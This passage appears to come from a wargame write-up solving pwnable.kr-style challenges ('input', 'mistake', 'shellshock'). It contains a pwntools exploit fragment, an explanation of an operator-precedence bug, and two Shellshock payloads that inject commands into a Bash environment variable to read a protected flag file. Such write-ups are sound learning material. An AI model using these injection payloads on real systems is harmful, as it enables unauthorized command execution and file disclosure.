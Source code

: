 ```python
env["\xde\xad\xbe\xef"] = "\xca\xfe\xba\xbe"

# Stage 3 cleared (Add env to the process call)

# $ python -c 'fd = open("/tmp/lulz"+"\x0a", "w"); fd.write("\x00\x00\x00\x00"); fd.close()'

# Stage 4 cleared (Run the python file from /tmp directory)

argv[67] = "7850"

# Stage 5 cleared (Run the client executable when in interactive mode)

# Last step is to create a symlink from flag to /home/input2/flag

p = process(argv=argv, stdin=open("/tmp/lulz/stdin", "r"), stderr=open("/tmp/lulz/stderr", "r"), env=env)
p.interactive()
```

## leg

`TODO`

## mistake

```
mistake@ubuntu:~$ ./mistake
do not bruteforce...
CCCCCCCCCC
input password : BBBBBBBBBB
Password OK
******** flag_redacted ***********
```

Basically the fd gets set to 0 due to the operator priority i.e. we are now reading the password from stdin.

## shellshock

So I have two solutions for this which are actually quite similar. I don't know why one of them segfaults after vomiting out the flag. It's probably due to some implementation details of the shell binary. **Please let me know in the comments if you have more specific reasons of why this could be segfaulting :)**

```
shellshock@ubuntu:~$ export x='() { :;}; echo  $(/bin/cat /home/shellshock/flag)'
shellshock@ubuntu:~$ ./shellshock
******** flag_redacted ***********
shock_me
```

```
shellshock@ubuntu:~$ export x='() { :;}; /bin/cat /home/shellshock/flag'
shellshock@ubuntu:~$ ./shellshock
******** flag_redacted ***********
Segmentation fault
```

